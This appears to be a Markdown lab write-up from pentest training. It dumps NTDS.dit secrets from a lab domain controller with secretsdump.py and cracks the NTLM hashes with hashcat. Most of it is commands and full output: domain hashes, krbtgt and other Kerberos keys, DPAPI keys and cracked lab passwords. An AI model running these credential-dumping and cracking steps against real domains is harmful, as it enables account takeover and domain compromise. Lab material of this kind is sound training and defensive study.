




# Dumping the NTDS.dit



We can get the secrets from the `NTDS.dit` database, which is stored on the domain
controller, with `secretsdump.py` using the login credentials of a domain admin.
For this purpose we use the new domain admin account that we have created with
a token impersonation attack:

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py MARVEL.local/hawkeye:"Password1@"@10.0.2.15
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xa33f1b26ad2e9952ea75944bcc924a4f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\HYDRA-DC$:aes256-cts-hmac-sha1-96:076d4f1971067c8eff8a5b68f1fc768ab455ef50d4af71df8c59cc18b4cdd68a
MARVEL\HYDRA-DC$:aes128-cts-hmac-sha1-96:cc6a0bf8f7c44bdec701ea35c98d979a
MARVEL\HYDRA-DC$:des-cbc-md5:5e675451bfd34c9e
MARVEL\HYDRA-DC$:plain_password_hex:167417614ee1b328a733792920f3a10f8820c3246fc7ec89dc0d888261be620173b5db2a0724ec3bb3788a476dd084d007997aa812018f2988f1f024669ba4049d2d916ecf0f7b5696ac4ca6291655d04c26f71d0af2674c92a8d252838753459dfabba746ce3293d981984f48adc59635811a90cbab0c373e0c40022aabf39802d3b8465cf414201aec28400f586f5b20c7ac5ccaf603effa83cf3286bd70d5be4333f764e6e2f642a139bb9a54f014bfa661a7a0523f120e0bc6649b25eadaa7b533da61656158fa54f25808ea97c146b71631ac85c5e4f7101bc08665d8e0c11b2cd0e7be6edc10330b273d5ed20a
MARVEL\HYDRA-DC$:aad3b435b51404eeaad3b435b51404ee:d8b78208639c8138e58dcc25105858ea:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd5640372dda77c8cdb6e3bd70eb3f1f7225b94f6
dpapi_userkey:0x3485f28420d853677c510e08cff6f07e313d3ae7
[*] NL$KM 
 0000   65 F2 94 8D 2E 36 01 B1  25 48 91 CE 7C 19 D1 93   e....6..%H..|...
 0010   D6 61 7E CA E3 AF 3B 4F  D0 93 60 B4 ED 18 AE 34   .a~...;O..`....4
 0020   58 5E EA 93 5A A9 1C FC  F3 24 38 D8 8A 97 84 BD   X^..Z....$8.....
 0030   CF D1 B8 6C C9 EA 13 4E  83 59 60 BA EC A3 F4 61   ...l...N.Y`....a
NL$KM:65f2948d2e3601b1254891ce7c19d193d6617ecae3af3b4fd09360b4ed18ae34585eea935aa91cfcf32438d88a9784bdcfd1b86cc9ea134e835960baeca3f461
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:938102c5d3c2c7e1ddc0ed42952f52d2:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:1bc3af33d22c1c2baec10a32db22c72d:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
HnlbLdcDQz:1109:aad3b435b51404eeaad3b435b51404ee:e34cc68a03918b6ce42d0c1014dd7e4d:::
hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:d8b78208639c8138e58dcc25105858ea:::
THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:a7310a9f64a8598773252ee0675e8aae:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1328c537e4ddf842c1456e4176112fdb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:d4a7b71c57a7c97cbad1ed9306856d4b98374ef9b4720ec1adbd7e85c88656b0
Administrator:aes128-cts-hmac-sha1-96:98786a2cf10ae54b74de80f8d0ff8d20
Administrator:des-cbc-md5:a73462a8dfd5adc7
krbtgt:aes256-cts-hmac-sha1-96:91621739c59f90beed379204f908b936656cadf743fdb48b51c707708ca3ae8b
krbtgt:aes128-cts-hmac-sha1-96:39af7f87188bbb91f9c4b95c728ba0c0
krbtgt:des-cbc-md5:4c2ccb31b35dba1c
MARVEL.local\tstark:aes256-cts-hmac-sha1-96:c0253feb8fa1a0532844adabe1db7b12a0e9c2e12b84d6640ed886025c175b50
MARVEL.local\tstark:aes128-cts-hmac-sha1-96:68727fb995192f9766d6294ffd64080c
MARVEL.local\tstark:des-cbc-md5:f2253d9e1373adcd
MARVEL.local\SQLService:aes256-cts-hmac-sha1-96:7e434c38e06b23841e6764f58a7daaf8ab32c782b98c41e8a0cfe7bea0d00a93
MARVEL.local\SQLService:aes128-cts-hmac-sha1-96:0ad727708ef2aabfe159f71c579c9a0e
MARVEL.local\SQLService:des-cbc-md5:523d2c0ecdea6eba
MARVEL.local\fcastle:aes256-cts-hmac-sha1-96:35f093c1a2aafb4dffbf63201a8a9ec9171a621a3ff90b199bc92273a74d8409
MARVEL.local\fcastle:aes128-cts-hmac-sha1-96:7583c4fe87334691ef5e7fd863f636f9
MARVEL.local\fcastle:des-cbc-md5:4fa7ad454cc78954
MARVEL.local\pparker:aes256-cts-hmac-sha1-96:5fc6b0c6792c9a3b62432eda4a61e5c71efc2c57f5466abea92ac4c16fcae580
MARVEL.local\pparker:aes128-cts-hmac-sha1-96:7693d96d854240b8c654c1f8a86387e1
MARVEL.local\pparker:des-cbc-md5:e3d640734938ec34
HnlbLdcDQz:aes256-cts-hmac-sha1-96:e628b53a8267632f459a6b3df2820c2e954b3ad44f1ac2b64a313f55d4116630
HnlbLdcDQz:aes128-cts-hmac-sha1-96:47d03bcd73c32a9294c87a06b4be38f0
HnlbLdcDQz:des-cbc-md5:1c23ad4623e00249
hawkeye:aes256-cts-hmac-sha1-96:70306b40ac0b9da21903551fa70b3191b61d88749e356b11cbe93721a0d3b471
hawkeye:aes128-cts-hmac-sha1-96:2ee48035a17365b1951d8a8105c917e4
hawkeye:des-cbc-md5:01f758f731b6757c
HYDRA-DC$:aes256-cts-hmac-sha1-96:076d4f1971067c8eff8a5b68f1fc768ab455ef50d4af71df8c59cc18b4cdd68a
HYDRA-DC$:aes128-cts-hmac-sha1-96:cc6a0bf8f7c44bdec701ea35c98d979a
HYDRA-DC$:des-cbc-md5:bc97573416b64c43
THEPUNISHER$:aes256-cts-hmac-sha1-96:ddcc3c9b8dc4bac1e836f60ef909cb491342f4b4ed03dff68b2a9ac9e5fccf90
THEPUNISHER$:aes128-cts-hmac-sha1-96:565a3e21b9a72ae1d6f853619e4d7832
THEPUNISHER$:des-cbc-md5:5e4934f8f1fb580d
SPIDERMAN$:aes256-cts-hmac-sha1-96:a521036c562ddfa01bd87fc45e81b1f4d6a0bf674b909e327b3298f94198a67d
SPIDERMAN$:aes128-cts-hmac-sha1-96:b4267987932dc7019749ce01fffaab6c
SPIDERMAN$:des-cbc-md5:801cc729baf72994
[*] Cleaning up...
```

If we add the switch `-just-dc-ntlm` to the command, the secrets that are not
exactly in our scope, i.e. the the SAM hashes and Kerberos keys, are filtered
out and just the `NTLM` hashes are printed. We can copy this output or redirect
it to a txt file right away for further processing.



```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py MARVEL.local/hawkeye:"Password1@"@10.0.2.15 -just-dc-ntlm
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:938102c5d3c2c7e1ddc0ed42952f52d2:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:1bc3af33d22c1c2baec10a32db22c72d:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
HnlbLdcDQz:1109:aad3b435b51404eeaad3b435b51404ee:e34cc68a03918b6ce42d0c1014dd7e4d:::
hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:d8b78208639c8138e58dcc25105858ea:::
THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:a7310a9f64a8598773252ee0675e8aae:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1328c537e4ddf842c1456e4176112fdb:::
[*] Cleaning up...
```

We want to crack only the NT part of the NTLM hash, not the LM part, as
highlighted in the screenshot below. We can use `Microsoft Excel` to grab the
relevant data out of the `secretsdump.py` output, using the `Data/TextToColumns`
function, then choose `Delimited` and enter `:` as the delimiter under `Other`.
The 2nd column is called the `RID` and is not relevant, the 3rd column is the
`LM` part of the hash, which is the same for the entire network and is also not
relevant for us now. We can therefore just delete the 2nd and 3rd column from
the `Excel` file.





Since I do not have `MS Office` or `Libre Office` installed on my Kali, I will
**live off the land** and use `bash` commands instead:

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py MARVEL.local/hawkeye:"Password1@"@10.0.2.15 -just-dc-ntlm | sed '1,4d;$d' | cut -d ':' -f 1,4 > ntds.txt
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources

┌──(kali㉿kali)-[~]
└─$ cat ntds.txt
Administrator:920ae267e048417fcfe00f49ecbd4b33
Guest:31d6cfe0d16ae931b73c59d7e0c089c0
krbtgt:938102c5d3c2c7e1ddc0ed42952f52d2
MARVEL.local\tstark:1bc3af33d22c1c2baec10a32db22c72d
MARVEL.local\SQLService:f4ab68f27303bcb4024650d8fc5f973a
MARVEL.local\fcastle:64f12cddaa88057e06a81b54e73b949b
MARVEL.local\pparker:c39f2beb3d2ec06a62cb887fb391dee0
HnlbLdcDQz:e34cc68a03918b6ce42d0c1014dd7e4d
hawkeye:43460d636f269c709b20049cee36ae7a
HYDRA-DC$:d8b78208639c8138e58dcc25105858ea
THEPUNISHER$:a7310a9f64a8598773252ee0675e8aae
SPIDERMAN$:1328c537e4ddf842c1456e4176112fdb
```

This data (only the user names and the NT parts of the NTLM hashes) is then
stored in a txt file for further processing with `hashcat`. Since the result of
the `bash` splitting also contains the usernames in the 1st field, we have to
tell `hashcat` to ignore the usernames with the switch `--username`:

```
┌──(kali㉿kali)-[~]
└─$ hashcat --username -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 PRO 4750U with Radeon Graphics, 1438/2941 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 12 digests; 12 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1                
31d6cfe0d16ae931b73c59d7e0c089c0:                         
c39f2beb3d2ec06a62cb887fb391dee0:Password2                
43460d636f269c709b20049cee36ae7a:Password1@               
920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!                
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#           
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ntds.txt
Time.Started.....: Sat Aug 23 04:13:29 2025 (5 secs)
Time.Estimated...: Sat Aug 23 04:13:34 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3218.4 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 6/12 (50.00%) Digests (total), 6/12 (50.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 32%

Started: Sat Aug 23 04:13:27 2025
Stopped: Sat Aug 23 04:13:35 2025
```

We can then use the `--show` switch in `hashcat` to display the cracked
passwords.

```
┌──(kali㉿kali)-[~]
└─$ hashcat --username -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt --show
Administrator:920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
Guest:31d6cfe0d16ae931b73c59d7e0c089c0:
MARVEL.local\SQLService:f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#
MARVEL.local\fcastle:64f12cddaa88057e06a81b54e73b949b:Password1
MARVEL.local\pparker:c39f2beb3d2ec06a62cb887fb391dee0:Password2
hawkeye:43460d636f269c709b20049cee36ae7a:Password1@
```

We can copy the result back into a new sheet in `Excel` (format as text to avoid
conversions!) and use the `VLOOKUP` function to map passwords to user names. We
of course also just redirect the output to a new file and keep working with
this text file instead of using `Excel`.

The passwords for usernames that end on `$` are called **PC passwords** by TCM.
They are not of high value to us, so we do not have to crack them. We can brush
up the password survey for our pentest report with some graphs and statistics,
e.g. the number of users found and the percentage of cracked passwords, but this
is a matter of personal taste.


### Further reading

* [NTDS.DIT Extraktion erklärt](https://www.semperis.com/de/blog/ntds-dit-extraction-explained/)


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
